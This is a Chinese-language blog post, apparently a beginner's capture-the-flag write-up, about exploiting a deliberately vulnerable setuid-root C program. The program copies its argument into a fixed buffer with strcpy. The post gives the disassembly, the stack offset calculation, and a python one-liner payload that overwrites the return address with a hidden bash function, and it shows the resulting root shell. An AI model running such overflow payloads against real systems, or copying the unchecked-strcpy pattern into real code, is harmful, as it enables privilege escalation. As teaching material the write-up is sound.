 ```yaml
---
title: 一次简单的pwn题目
layout: post
date: '2018-11-06'
categories: C++/C
permalink: "/archivers/2018-11-06/1"
description: 一次简单的pwn题目
---
```


一次简单的pwn题目
<!--more-->

## 0x01 背景介绍


![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-06/89878547F623C64F0C41D9A5E04DD0E1.jpg)

![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-06/A0240C8DD946466BBD6385370A450BE1.jpg)

在A师傅的带领下，我假想了一个pwn简单题目，非常适合新手中的新手，其实发出来有点丢人的。


题目背景是这样的：

小Q登录上了一个服务器，他的用户名是`rvn0xsy`，没有root权限，在home目录里发现了一个名为flag.txt的文件，很明显要获得flag.txt的内容，但是事情并没有那么简单……

小Q踏上了艰辛的旅程。


## 0x02 初入江湖

小Q查看了一下目录文件：

```sh
rvn0xsy@ubuntu:~/Pwn$ ll
total 44
drwxrwxr-x  2 rvn0xsy rvn0xsy 4096 Nov  5 19:50 ./
drwxr-xr-x 20 rvn0xsy rvn0xsy 4096 Nov  5 09:47 ../
-rwsr-sr-x  1 root    root    8487 Nov  5 09:48 a.out*
-rw-------  1 root    rvn0xsy    6 Nov  5 19:50 flag.txt
-rw-rw-r--  1 rvn0xsy rvn0xsy  317 Nov  5 09:48 pwn.c
rvn0xsy@ubuntu:~/Pwn$ cat flag.txt 
cat: flag.txt: Permission denied
rvn0xsy@ubuntu:~/Pwn$ 
```
发现了flag.txt，没有权限读取 :(

只能把目光转向`a.out`，这个文件似乎不是那么简单，它具有S属性，如果我们能够通过它来执行命令的话……那肯定可以读取flag.txt ！！

旁边还有一个pwn.c，会不会是它的源码呢？

## 0x03 踏上征程

```sh
rvn0xsy@ubuntu:~/Pwn$ cat -n pwn.c 
     1	#include <stdio.h>
     2	#include <unistd.h>
     3	#include <string.h>
     4	#include <stdlib.h>
     5	
     6	int bash();
     7	
     8	int main(int argc,char * argv[]){
     9		setuid(0);
    10		if(argv[1] == NULL){
    11			printf("usage : %s input string \n",argv[0]);
    12			exit(-1);
    13		}
    14		char a[20];
    15		strcpy(a,argv[1]);
    16		printf("%s \n",a);
    17	}
    18	
    19	int bash(){
    20	  system("/bin/bash");
    21	}
rvn0xsy@ubuntu:~/Pwn$ 
```

可以看到`main`函数中有一个`setuid(0);`，它将具有S属性的程序设置为root权限运行，其次该文件中还有一个`bash`函数，灵光乍现！ 如果执行了`setuid(0);`再调用`bash`函数就可以获得一个root权限的bash shell。

但是main函数中并没有调用bash函数，这个怎么办呢？

焦虑的小Q又会想起当年学习C语言时，自己触发过N次的`segment fault`，是由于它没有检查`strcpy`参数传入的长度，导致覆盖了数组边界。

但是其背后引出的问题都不是那么简单，上面只是普通程序员所理解的程度，而要深入问题的本质，还是要看汇编代码：

```sh
>>> disassemble main 
Dump of assembler code for function main:
   0x080484dd <+0>:	push   ebp ;将栈基地址压入栈
   0x080484de <+1>:	mov    ebp,esp ;设置当前栈指针地址为基址
   0x080484e0 <+3>:	and    esp,0xfffffff0
   0x080484e3 <+6>:	sub    esp,0x30 ;将esp向后增长30（16进制=>48字节）位 给char a[20]分配的也在其中
   0x080484e6 <+9>:	mov    DWORD PTR [esp],0x0
   0x080484ed <+16>:	call   0x80483d0 <setuid@plt> ; 调用setuid(0)
   0x080484f2 <+21>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484f5 <+24>:	add    eax,0x4
   0x080484f8 <+27>:	mov    eax,DWORD PTR [eax]
   0x080484fa <+29>:	test   eax,eax
   0x080484fc <+31>:	jne    0x804851f <main+66> ; 判断argv[1]是否为空
   0x080484fe <+33>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048501 <+36>:	mov    eax,DWORD PTR [eax]
   0x08048503 <+38>:	mov    DWORD PTR [esp+0x4],eax
   0x08048507 <+42>:	mov    DWORD PTR [esp],0x8048600
   0x0804850e <+49>:	call   0x8048370 <printf@plt> ; 调用printf
   0x08048513 <+54>:	mov    DWORD PTR [esp],0xffffffff
   0x0804851a <+61>:	call   0x80483b0 <exit@plt> ; 退出
   0x0804851f <+66>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048522 <+69>:	add    eax,0x4
   0x08048525 <+72>:	mov    eax,DWORD PTR [eax]
   0x08048527 <+74>:	mov    DWORD PTR [esp+0x4],eax
   0x0804852b <+78>:	lea    eax,[esp+0x1c]
   0x0804852f <+82>:	mov    DWORD PTR [esp],eax
   0x08048532 <+85>:	call   0x8048380 <strcpy@plt>
   0x08048537 <+90>:	lea    eax,[esp+0x1c]
   0x0804853b <+94>:	mov    DWORD PTR [esp+0x4],eax
   0x0804853f <+98>:	mov    DWORD PTR [esp],0x804861a
   0x08048546 <+105>:	call   0x8048370 <printf@plt> ; 输出 a
   0x0804854b <+110>:	leave  
   0x0804854c <+111>:	ret    
End of assembler dump.
```

在`strcpy`处设置断点，栈情况：
```sh
[------------------------------------stack-------------------------------------]
0000| 0xbfe74180 --> 0x0 
0004| 0xbfe74184 --> 0x2f ('/')
0008| 0xbfe74188 --> 0x804a000 --> 0x8049f14 --> 0x1 
0012| 0xbfe7418c --> 0x80485c2 (<__libc_csu_init+82>:	add    edi,0x1)
0016| 0xbfe74190 --> 0x2 
0020| 0xbfe74194 --> 0xbfe74254 --> 0xbfe75921 ("/home/rvn0xsy/Pwn/a.out")
0024| 0xbfe74198 --> 0xbfe74260 --> 0xbfe7593d ("SHELL=/bin/bash")
0028| 0xbfe7419c --> 0xb755164d (<__cxa_atexit+29>:	test   eax,eax)
```
`0xbfe75921`就是`argv`数组的首地址

```sh
>>> x /8s 0xbfe75921
0xbfe75921:	"/home/rvn0xsy/Pwn/a.out"
0xbfe75939:	"123"
0xbfe7593d:	"SHELL=/bin/bash"
0xbfe7594d:	"TERM=xterm"
0xbfe75958:	"USER=rvn0xsy"
0xbfe75962:	"LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbfe75a2a:	":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbfe75af2:	"eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
>>> 
```

可以看到，我们传入的`123`在`0xbfe75939`

通过计算`strcpy()`的栈偏移量，我们可以确定`0xbfe75939`到`ESP`中函数返回值的空间有`0xc`这个长度。

由于还有内存对齐的缘故，所以缓冲区的大小应该是32，再向后4个字节就是strcpy的下一条指令的地址

## 0x04 小有成绩


获得bash函数的地址：

```sh
>>> p bash
$1 = {int ()} 0x804854d <bash>
>>> 
```

构造shellcode：

```sh
python -c "print 'x'*32+'\x4d\x85\x04\x08'"> exploit.txt
```

## 0x05 修仙完毕

```sh
rvn0xsy@ubuntu:~/Pwn$ ./a.out $(cat exploit.txt)
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxM� 
bash-4.3# cat flag.txt 
12580
bash-4.3# id
uid=0(root) gid=1000(rvn0xsy) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),125(sambashare),1000(rvn0xsy)
bash-4.3# exit
exit
Segmentation fault (core dumped)
rvn0xsy@ubuntu:~/Pwn$ 
```
flag.txt内容是12580，退出的时候，是由于EIP寄存器指向了一个非指令内存区域，导致段地址错误。



